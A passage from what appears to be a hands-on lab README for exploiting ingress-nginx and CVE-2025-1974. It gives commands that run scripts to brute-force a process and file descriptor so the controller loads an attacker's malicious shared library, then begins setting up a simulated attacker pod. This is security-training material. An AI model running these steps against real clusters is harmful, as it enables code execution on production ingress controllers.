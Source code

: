 ### Step 2

Step 2 automates what you did in Step 1.5: it brute-forces the correct PID and FD of the malicious shared library file.

1. **If `step1.py` has finished, run it again** to place the file into the temporary directory:
    ```bash
    python3 step1.py
    ```

1. **Run `step2.py`.** It may take a while, so be patient:
    ```bash
    python3 step2.py
    ```

1. **Check the logs** on the ingress-nginx pod to confirm it loaded and executed your malicious shared library. Because `step2.py` is very noisy, you can filter the logs:
    ```bash
    kubectl logs -f svc/ingress-nginx-controller -n ingress-nginx | grep "ingress-nightmare lab:"
    # Example output:
    #
    # ingress-nightmare lab: Engine invoked with ID: '/proc/49/fd/90' (expected: 'hello')
    # ingress-nightmare lab: Hello World engine initialized successfully
    # ingress-nightmare lab: Process ID: 10689, User ID: 101
    ```

---

## CVE-2025-1974

This vulnerability occurs when the ingress-nginx controller loads a shared library from a file descriptor.

### Simulate an Attacker Inside the Cluster

1. **Create a Linux Alpine pod** to simulate an attacker inside the cluster:
    - **Create the pod**:
      ```bash
      kubectl apply -f alpine.yaml
      ```
    - **Get the pod’s IP address**:
      ```bash
      kubectl get pods alpine -o wide
      # Example output:
      #
      # NAME      READY   STATUS    RESTARTS   AGE   IP           NODE
      # alpine    1/1     Running   0          10m   10.244.1.3   workshop-cluster-worker
      ```
    - **Copy the `cve-2025-1974.py` script and the shared library** to the pod:
      ```bash